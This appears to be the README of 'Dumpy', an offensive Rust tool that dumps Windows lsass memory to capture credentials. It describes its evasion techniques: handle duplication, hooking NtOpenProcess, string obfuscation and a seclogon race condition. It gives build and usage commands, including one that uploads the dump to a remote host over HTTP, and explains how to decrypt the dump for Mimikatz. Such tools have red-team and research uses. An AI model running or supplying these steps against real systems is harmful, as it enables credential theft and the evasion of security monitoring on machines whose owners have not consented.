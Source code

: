 # Description

This tool dynamically calls MiniDumpWriteDump to dump lsass memory content. This process is done without opening a new process handle to lsass and using [DInvoke_rs](https://github.com/Kudaes/DInvoke_rs) to make it harder to detect its malicious behaviour. In order to obtain a valid process handle without calling OpenProcess over lsass, all process handles in the system are analyzed using NtQuerySystemInformation, NtDuplicateObject, NtQueryObject and QueryFullProcessImageNameW.

NtOpenProcess is hooked before calling MiniDumpWriteDump to avoid the opening of a new process handle over lsass.

NTFS Transaction are used in order to xor the memory dump before storing it on disk or sending it throught HTTP.

**Support added for both x86 and x64**.

# Compilation 

Since we are using [LITCRYPT](https://github.com/anvie/litcrypt.rs) plugin to obfuscate string literals, it is required to set up the environment variable LITCRYPT_ENCRYPT_KEY before compiling the code:

	C:\Users\User\Desktop\Dumpy\dumpy> set LITCRYPT_ENCRYPT_KEY="yoursupersecretkey"

After that, simply compile the code and execute it:

	C:\Users\User\Desktop\Dumpy\dumpy> cargo build --release
	C:\Users\User\Desktop\Dumpy\dumpy\target\x86_64-pc-windows-msvc\release> dumpy.exe -h

In case that you want to compile the tool for a x86 system, modify the value of the option "target" in the file .cargo\config (e.g: target = "i686-pc-windows-msvc").

# Usage

	USAGE:
    dumpy.exe [OPTIONS] <ACTION> [FORCE]

	ARGS:
	    <ACTION>    Valid values: dump or decrypt
	    <FORCE>     Force seclogon's service to leak a lsass handle through a race condition

	OPTIONS:
	    -h, --help                         Print help information
	    -i, --input-file <INPUT_FILE>      Encrypted dump file [default: c:\temp\input.txt]
	    -k, --key <KEY>                    Encryption key [default: 1234abcd]
	    -o, --output-file <OUTPUT_FILE>    Destination path [default: c:\temp\output.txt]
	    -u, --upload <UPLOAD>              Upload URL

Dumpy has two main actions:

- **dump**: It will execute the main logic to dump the lsass content. By default, it will store the result in a xored text file with a random name in the current directory. The option **upload** allows to send the memory content over HTTP to a remote host, avoiding the creation of the xored file on disk. I've used [this simple HTTP server](https://gist.github.com/smidgedy/1986e52bb33af829383eb858cb38775c) in order to handle the upload, but any other HTTP server that supports **multipart/form-data requests** will work.

		C:\Temp> dumpy.exe dump -k secretKey -u http://remotehost/upload

If you want to force the leakage of a handle to the lsass through the race condition in seclogon's service described by [Antonio Cocomazzi](https://twitter.com/splinter_code) in [this post](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html), just use the option **force**:

		C:\Temp> dumpy.exe dump -k secretKey -u http://remotehost/upload force

- **decrypt**: This action allows to obtain the decrypted memory dump in the same format that tools like Mimikatz would expect. As arguments it expects the xored memory dump, the encryption key and the output file path. In case the xored file has been uploaded using HTTP, **it is required to perform a base64 decoding of the content before this decryption process**.

		C:\Temp> dumpy.exe decrypt -i xored.txt -o decrypted.txt -k secretKey
